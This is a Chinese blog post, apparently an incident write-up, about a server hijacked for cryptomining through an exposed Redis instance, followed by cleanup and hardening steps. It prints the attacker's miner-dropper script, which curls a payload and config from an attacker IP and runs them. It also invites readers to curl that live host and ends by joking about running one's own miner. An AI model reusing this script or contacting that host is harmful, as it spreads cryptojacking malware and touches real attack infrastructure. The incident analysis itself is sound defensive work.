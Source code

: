 线上服务器用的是某讯云的，欢快的完美运行着 Tomcat，MySQL，MongoDB，ActiveMQ 等程序。突然一则噩耗从前线传来：网站不能访问了。

此项目是我负责，我以 150+ 的手速立即打开了服务器，看到 Tomcat 挂了，然后顺其自然的重启，启动过程中直接被 killed，再试试数据库，同样没成功，多次尝试甚至重启机器无果，机智的我打了个 top，出现以下内容：

![img](https://static.oschina.net/uploads/space/2018/0328/213330_XkIl_3577599.png)

这是谁运行的程序？不管三七二十一先杀掉再说，因为它就是 Tomcat 等程序启动不了的元凶，然而并没有什么卵用，过一会再看那个东西又跑出来占 cpu。怀疑是个定时任务：

![img](https://static.oschina.net/uploads/space/2018/0328/214246_cmN9_3577599.png)

什么鬼，是个图片？立即访问了一下：

![img](https://static.oschina.net/uploads/space/2018/0328/214452_EWrd_3577599.png)

好尴尬，但是心思细腻的我早知道没这么简单，肯定只是伪装，crul 过去是下面的脚本，过程就是在挖矿：

```shell
#!/bin/sh
pkill -9 142.4.124.164
pkill -9 192.99.56.117
pkill -9 jva
pkill -f ./atd
pkill -f /tmp/wa/httpd.conf
pkill -f 108.61.186.224
pkill -f 128.199.86.57
pkill -f 67.231.243.10
pkill -f 142.4.124.164
pkill -f 192.99.56.117
pkill -f 45.76.102.45
pkill -f AnXqV.yam
pkill -f BI5zj
pkill -f Carbon
pkill -f Duck.sh
pkill -f Guard.sh
...中间省略
/sbin/sysctl -w vm.nr_hugepages=`$num`
nohup ./suppoie -c config.json -t `echo $cores` >/dev/null &
fi
ps -fe|grep -w suppoie |grep -v grep
if [ $? -eq 0 ]
then
pwd
else
curl -o /var/tmp/config.json http://192.99.142.235:8220/1.json
curl -o /var/tmp/suppoie http://192.99.142.235:8220/rig1
chmod 777 /var/tmp/suppoie
cd /var/tmp
proc=`grep -c ^processor /proc/cpuinfo`
cores=$((($proc+1)/2))
num=$(($cores*3))
/sbin/sysctl -w vm.nr_hugepages=`$num`
nohup ./suppoie -c config.json -t `echo $cores` >/dev/null &
sleep 3
fi
if [ $? -eq 0 ]
then
pwd
else
curl -o /var/tmp/config.json http://192.99.142.235:8220/1.json
curl -o /var/tmp/suppoie http://192.99.142.235:8220/rig2
chmod 777 /var/tmp/suppoie
cd /var/tmp
proc=`grep -c ^processor /proc/cpuinfo`
cores=$((($proc+1)/2))
num=$(($cores*3))
/sbin/sysctl -w vm.nr_hugepages=`$num`
nohup ./suppoie -c config.json -t `echo $cores` >/dev/null &
fi
echo "runing....."
```

有兴趣的同学想查看以上完整源代码，命令行运行下面指令（不分操作系统，方便安全无污染）：

```
curl 192.99.142.235:8220/logo3.jpg
```

既然知道它是个定时任务，那就先取消了它，并且看看它是谁在运行：

![img](https://static.oschina.net/uploads/space/2018/0328/215455_48K7_3577599.png)

杀掉，找到存放目录：

![img](https://static.oschina.net/uploads/space/2018/0328/215714_lqZ8_3577599.png)

进入临时目录：

![img](https://static.oschina.net/uploads/space/2018/0328/215852_BSsP_3577599.png)

被我发现配置文件了，先来看看内容：

![img](https://static.oschina.net/uploads/space/2018/0328/220001_OuTD_3577599.png)

虎躯一震，发现了不少信息啊，user 是他的 server 的登录用户,下面是密码，只可惜加密过，应该找不到对方。算了，大度的我先不和你计较，干掉这两个文件后再查看 top：

![img](https://static.oschina.net/uploads/space/2018/0328/220252_iUcv_3577599.png)

### **解决办法**

找到寄生的目录，一般都会在 tmp 里，我这个是在 */var/tmp/*。首先把 crontab 干掉，杀掉进程，再删除产生的文件。

启动Tomcat等程序，大功告成！

等等，这远远不够，考虑到能被拿去挖矿的前提下你的服务器都已经被黑客入侵了，修复漏洞才对，不然你杀掉进程删掉文件后，黑客后门进来 history 一敲，都知道你做了啥修复手段。

所以上面办法治标不治本，我后续做了以下工作：

1. 把所有软件升级到新版本，修复 redis 的后门，配置 bind 选项， 限定可以连接 Redis 服务器的IP，并修改 Redis  的默认端口 6379。配置 AUTH， 设置密码，密码会以明文方式保存在 Redis 配置文件中。

2. 修改所有软件默认端口号

3. 打开 `ssh/authorized_keys` , 删除不认识的密钥

4. 删除用户列表中陌生的帐号

5. 封了他的 IP

6. SSH使用密钥登录并禁止口令登录(这个一般是加运维一个人的秘钥)

### 木马原因

是 Redis 漏洞导致：

> Redis 默认情况下，会绑定在 0.0.0.0:6379，这样将会将Redis服务暴露到公网上，如果在没有开启认证的情况下，可以导致任意用户在可以访问目标服务器的情况下未授权访问Redis以及读取Redis的数据。攻击者在未授权访问Redis的情况下可以利用Redis的相关方法，可以成功将自己的公钥写入目标服务器的 /root/.ssh 文件夹的authotrized_keys 文件中，进而可以直接登录目标服务器。
>
> http://blog.jobbole.com/94518/

最好的方式：将主机镜像，找出病毒木马，分析入侵原因。检查业务程序，重装系统，修复漏洞，再重新部署系统。

### 写在最后，

网友提供的一劳永逸终极解决办法：

**把你自己的挖矿脚本挂上去运行，这样别人就算挂脚本也跑不起来了。**